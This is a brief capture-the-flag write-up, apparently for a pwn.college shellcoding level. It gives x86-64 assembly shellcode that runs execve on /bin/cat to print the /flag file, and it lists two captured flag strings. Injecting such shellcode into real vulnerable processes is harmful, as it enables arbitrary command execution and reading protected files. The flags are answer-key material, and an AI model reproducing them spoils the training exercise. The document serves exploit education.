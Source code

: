 # Level 1

This challenge seems to have no restrictions, perhaps is the size but 0x4000 is extremelly high to be a constraint tho xD <br>

This could've been done several ways, i just used execve to call cat on the flag file <br>

- since flag was at the root directory, prepended with **/** to maintain stack aligned (this is allowed in linux)

```assembly
.global _start
_start:
.intel_syntax noprefix
    # int3 # to debug

	xor rax,rax
	push rax                    # null byte
	
arraybuilder: # right to left
	mov rdx, 0x67616c662f2f2f2f # ////flag reversed
	push rdx
	mov rdx, rsp
	push rax                    # null byte
	
	# store argv[0] -> cat
	mov rdi, 0x7461632f6e69622f # /bin/cat reversed
	push rdi
	mov rdi, rsp
	push rax                    # null byte

setregisters:
	push rdx                    # argv[1]
	push rdi                    # argv[0]
	
dosyscall:
	mov rsi, rsp                # argv **
	xor rdx,rdx                 # null envp
	add rax, 0x3b               # execve syscall index
	syscall

# Flag for teaching challenge -> pwn_college{A5TLoc-81Kcc3xGPcVXnvg_w3iH.QXxATMsQjNxIzW}
# Flag for testing challenge -> pwn_college{0YXOfsP5dgQkeEl0WcdpxPFAe7C.QXyATMsQjNxIzW}
```